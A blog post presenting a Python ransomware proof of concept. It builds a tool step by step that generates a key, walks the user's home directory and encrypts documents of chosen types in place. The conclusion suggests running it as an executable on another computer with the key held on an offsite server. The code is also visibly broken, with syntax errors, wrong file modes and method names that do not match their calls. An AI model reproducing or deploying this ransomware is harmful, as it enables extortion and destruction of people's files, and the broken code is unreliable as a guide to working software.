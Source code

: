 ```yaml
---
layout: post
title:  "Ransomware Proof of concept"
date:   2020-08-29 6:00:00 +0800
categories: coding
---
```


### Ransomware Concept
The basic of ransomware is it encrypts a specified target file extension using with a key that the attacker had setup on a server somewhere to be used later for later decyption process. There are different programming languges you can use for this but the easiest and fastest way to provide a proof of concept is with python. You can check my code repo here [run-some-crypt](https://github.com/AdrianDucao/run-some-crypt).

#### Content
1. generate a key to be used for encryption and decryption
2. write a key file
3. read a key file
4. scanning directory
5. encypt the target files
6. create cli interface

### generate a key to be used for encryption and decryption
Let's begin by importing the OS module since we can use its functions for interactions with the OS, for encryption we can import the [Fernet(Semantic Encrytion)](https://cryptography.io/en/latest/fernet/) Module.
```
  1 import os
  2 from os.path import expanduser
  3 from cryptography.fernet import Fernet

```

create a class and constructor, below that is the generateKey function
```
  5 class Encrypt:
  6 
  7     def __init__(self):
  8 
  9         self.key = None
 10         self.cryptor = None
 11         self.file_ext_targets = ['pdf','doc','docx','ppt','pptx','txt']
 12 
 13     def generateKey(self):
 14 
 15         self.key = Fernet.generate_key()
 16         self.cryptor = Fernet(self.key)

```

### write a key file
now lets create a function to write the key to a file
```
 23     def writeKey(self, key_filename):
 24         with open.(key_filename, 'b') as f:
 25             f.write(self.key)

```

### read a key file
moving on, create a function to read a key from a file
```
 18     def readKey(self, key_filename):
 19         with open(key_filename, 'a') as f:
 20             self.key = f.read()
 21             self.cryptor = Fernet(self.key)

```

### scanning directory
the function below allows you to scan the directories and check for target filename extensions specified earlier on self.file_ext_targets 
```
 28     def mainCrypt(self, root_dir, encrypted = False):
 29         for root, _, files in os.walk(root_dir):
 30             for f in files:
 31                 abs_file_path = os.path.join(root, f)
 32 
 33                 if not abs_file_path('.')[-1] in self.file_ext_targets:
 34                     continue
 35 
 36                 self.crypt_file(abs_file_path, encrypted = encrypted)

```

### encrypt the target files
function to encrypt the specified filename extensions and check if that file has been encrypted or not
```
 38     def encryptFile(self, file_path, encrypted = False):
 39         with open(file_path, 'a+') as f:
 40             _data = f.read()
 41 
 42             if not encrypted:
 43                 data = self.cryptor.encrypt(_data)
 44             else
 45                 data = self.cryptor.decrypt(_data)
 46 
 47             f.seek(0)
 48             f.write(data)

```

### create a cli interface
how it works is that you call the class we created earlier and create a conditional statement where you can specify and action you want to take e.g. encrypt or decrypt files. 
``` 
 51 if __name__ == '__main__':
 52     #all directory
 53     sys_root = expanduser('~')
 54 
 55     #specific target directory
 56     #local_root= '.'
 57 
 58     import argparse
 59     parser = argparse.ArgumentParser()
 60     parser.add_argument('--action', required=True)
 61     parser.add_argument('--keyfile')
 62 
 63 
 64     args = parser.parse_args()
 65     action = args.action.lower()
 66     keyfile = args.keyfile
 67 
 68     lock = Encrypt()
 69 
 70     if action == 'decrypt':
 71         if keyfile is None:
 72             print('Specify path to keyfile after --keyfile')
 73         else:
 74             lock.read_key(keyfile)
 75             lock.mainCrypt(local_root, encrypted=True)
 76     elif action == 'encrypt':
 77         lock.generate_key()
 78         lock.write_key('keyfile')
 79         lock.mainCrypt(sys_root)


```

### Conclusion
After that typing, you're set and done. If you are planning to use this to another computer, you can create an executable file to run this code set an offsite server to host and store the keyfile for later use. Another use case for this is to make a secure encrypted files inside your flash drive or hard drive, as long as you have the keyfile or know the key you're the only one who can open those files. It's not a matter of if but when the quantum computers will comes to age, privacy and secuity through encryption might disappear. 
```
$ python3 crypt.py --action encrypt

$ python3 crypt.py --action decrypt --keyfile /path/keyfile
```

Happy Hunting.